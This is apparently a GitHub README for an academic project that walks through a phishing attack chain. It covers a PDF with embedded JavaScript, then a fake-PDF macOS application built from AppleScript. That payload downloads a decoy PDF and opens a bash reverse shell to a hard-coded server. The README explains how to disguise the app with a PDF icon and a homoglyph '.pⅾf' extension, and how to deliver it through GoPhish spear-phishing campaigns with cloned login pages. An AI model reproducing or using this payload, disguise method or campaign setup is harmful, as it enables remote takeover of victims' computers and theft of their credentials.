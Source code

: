 # Part 1. PDF Embedding Code Attacks

PDF supports a lot of content formats such as text, HTML, CSS, JavaScript, etc.
You can also attach files in pdf files.
With the ability of using JavaScript in pdf files, there might be vulnerability.
The abstraction of this attack is to attach an executable file or a bash script, and use JavaScript to download the attachment then execute the file.

## PyPDF2

My approach uses PyPDF2 library to achieve the operation we discussed above.
PyPDF2 supports file attachment to a pdf file, the function I am using is `addAttachment(filename, data)`.
The function for embedding JavaScript is `addJS(script)`.

## Acrobat

Acrobat provides several functions and properties for manipulating the file attachments.
The function I am using here is `this.exportDataObject({cName: filename,nLaunch: option})`.
We are using option "2" for the nLaunch argument which enable the "download then execute" operation.

## Results

After creating a new file with `pdf_inject.py`, we open the pdf file with Adobe Acrobat Reader.
_(You need to use this reader to execute the JavaScript)_

![0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/0.png)

You can see there's a `mock.txt` file attached to the pdf file.
The original file I attached to it was sh file but I mocked the format as a text file.

![1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/1.png)

The Acrobat Reader detected the attachment was not text file so it pop out a window to ask if the user would like to download the file or not.
It also warned the user that this could be a malicious code.

![2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/2.png)

Not thing happened if you really open the file.

![3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/3.png)

The newer version of Adobe Acrobat Reader has some mechanisms to prevent the attack like this.
I am looking into some other ways to achieve the goal.

<hr/>

# Part 2. Fake PDF Attack

So the JavaScript embedded attack above was patched,
let's move on and make a fake pdf file with AppleScript.

## Creating AppleScript

The extension of an AppleScript is _.scpt_.

```shell
touch payload.scpt
nano payload.scpt
```

The contents in my payload:

```AppleScript
do shell script "rm -f /tmp/Twitter.pdf"
do shell script "curl -s -L -o /tmp/Twitter.pdf 'https://drive.google.com/uc?export=download&id=1Iq6gJytrjp2zlpjWfaDmYECaELs3biG2'"
do shell script "open -a Preview.app /tmp/Twitter.pdf"
do shell script "bash -i >& /dev/tcp/206.189.215.73/3456 0>&1 &"
```

0. Clean up previous payload.
1. Download a real pdf from my google drive and put it in /tmp folder where normal user don't really use.
   _(-s for silent mode, -L for following redirects, -o for output)_
1. Open the pdf file above with Preview application.
1. Open a bash revers shell backdoor to my server and run in background.

## Export To Application

Use Mac's build-in Script Editor for exporting the script above into a executable application.

![Fake 0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_0.png)

Choose _Application_ for File Format and rename the file.

![Fake 1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_1.png)

Now, you will get a application for mac that will execute the AppleScript in the previous section.

## Fake The Appearance

Right click the application and select _Get Info_ or use _Command + I_.

![Fake 2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_2.png)

Drag a real pdf file into its icon which will create a pdf file preview.

![Fake GIF](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_gif.gif)

Rename the file with _.pⅾf_ extension.

(Important) The "ⅾ" we are using is not actual English character "d".
We need to use "ⅾ" which is small roman numeral five hundred (Unicode character U+217E).

![Fake 3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/fake_3.gif)

## Demo

I ssh to my server on _206.189.215.73_ and open a netcat listener.
Double click the fake pdf I just created with the instructions above.
The fake pdf downloads and opens a real pdf, then opens the backdoor for me.

[![Brian Fake PDF Attack demo](https://img.youtube.com/vi/i5z8vxSXXt4/0.jpg)](https://youtu.be/i5z8vxSXXt4)

<hr/>

# Part 3. Phishing Email

I used an open source phishing framework called GoPhish which could be one of the ways to deliver my fake pdf payload.
Here is the frontend of this framework.

![GoPhish 0](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_0.png)

## Sending Profile

Create a profile for sending email with _smtp.gmail.com_ and enter the email account information for sender.

![GoPhish 1](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_1.png)

## Landing Pages

Create a landing page with html when user click any url in the email.
You can also import from a existing site.
For example, LinkedIn login page.
The information user input to this landing page will be report to me.

![GoPhis 2](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_2.png)

![GoPhis 3](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_3.png)

## Email Template

Create a email template with html which will be the content in this phishing email.
You can also import from a existing email.
This is a spear phishing since I am targeting a very specific person with his personal information and the content he/she might be interested in.

![GoPhis 4](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_4.png)

## User and Group

Create user and group for receiver information.

![GoPhis 5](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_5.png)

## Campaigns

Create a campaign for the target with all the setups above.

![GoPhis 6](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_6.png)

## Result Tracking

After sending the phishing email.
The framework will keep tracking the states of the attack.
You will see the information like whether the target opens the email or click the url, etc.

![GoPhis 7](https://raw.githubusercontent.com/ohbriansung/phishing_email_pdf_attack/master/img/phish_7.png)

<hr/>

## Author

Chien-Yu (Brian) Sung

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [PyPDF2](https://pythonhosted.org/PyPDF2/PdfFileWriter.html?highlight=addAttachment)
1. [Acrobat](https://acrobatusers.com/tutorials/importing-and-exporting-pdf-file-attachments-acrobat-javascript)
1. [GoPhish](https://getgophish.com)
1. [Curl to download file from Google Drive](https://stackoverflow.com/questions/20665881/direct-download-from-google-drive-using-google-drive-api)
